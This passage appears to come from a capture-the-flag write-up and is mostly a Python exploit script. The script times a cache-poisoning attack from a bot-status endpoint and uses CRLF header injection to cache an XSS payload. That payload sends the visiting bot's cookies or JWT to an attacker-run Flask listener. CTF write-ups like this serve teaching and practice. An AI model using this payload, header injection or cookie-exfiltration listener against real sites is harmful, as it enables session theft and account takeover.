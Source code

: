 Thankfully there is the `/controller/bot_running` endpoint which gives us the status of the bot, so we can estimate to poison the cache about 3 seconds after the bot has started.

```py
import requests, urllib, Flask

EXFIL_HOST, EXFIL_PORT = "127.17.0.1", 9090
EXFIL_URL = f"http://{EXFIL_HOST}:{EXFIL_PORT}"

def start_server():
    app = Flask(__name__)
    
    @app.route("/jwt/<value>", methods=["GET"])
    def index(value):
        print("Leaked cookies:", value)
        return "ok", 200

    app.run(host="0.0.0.0", port=EXFIL_PORT, debug=False)


def url_encode(string):
    return urllib.parse.quote(string, safe="")


def check_bot():
    resp = requests.get(f"{CHALLENGE_URL}/controller/bot_running")
    if resp.text == "running":
        return True
    else:
        return False


def poison_cache():
    if not check_bot():
        return False

    time.sleep(3)
    
    xss = f"<script>fetch('{EXFIL_URL}/jwt/'+document.cookie)</script>"
    encoded_xss = url_encode(xss)

    injected_headers = "\r\nCacheKey: enable\r\nX-Content-Type-Options: undefined"
    encoded_headers = url_encode(injected_headers)

    requests.get(f"{CHALLENGE_URL}/oracle/{encoded_xss}/1{encoded_headers}")


def poison_loop():
    while True:
        poison_cache()
        time.sleep(1)


if __name__ == "__main__":
    server = multiprocessing.Process(target=start_server)
    poison = multiprocessing.Process(target=poison_loop)
    server.start()
    poison.start()
```
